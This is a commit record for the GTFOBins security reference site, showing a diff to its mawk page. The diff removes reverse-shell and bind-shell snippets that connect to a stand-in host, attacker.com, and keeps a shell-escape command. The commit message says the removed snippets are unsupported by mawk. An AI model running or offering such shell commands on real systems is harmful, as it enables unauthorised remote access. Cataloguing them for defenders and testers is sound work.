

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/mawk.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Remove network shell functions from mawk as not supported

```diff
--- a/_gtfobins/mawk.md
+++ b/_gtfobins/mawk.md
@@ -2,23 +2,6 @@
 functions:
   shell:
     - code: mawk 'BEGIN {system("/bin/sh")}'
-  non-interactive-reverse-shell:
-    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
-      code: |
-        RHOST=attacker.com
-        RPORT=12345
-        mawk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {
-            s = "/inet/tcp/0/" RHOST "/" RPORT;
-            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
-            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
-  non-interactive-bind-shell:
-    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
-      code: |
-        LPORT=12345
-        mawk -v LPORT=$LPORT 'BEGIN {
-            s = "/inet/tcp/" LPORT "/0/0";
-            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
-            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
   file-write:
     - code: |
         LFILE=file_to_write
```
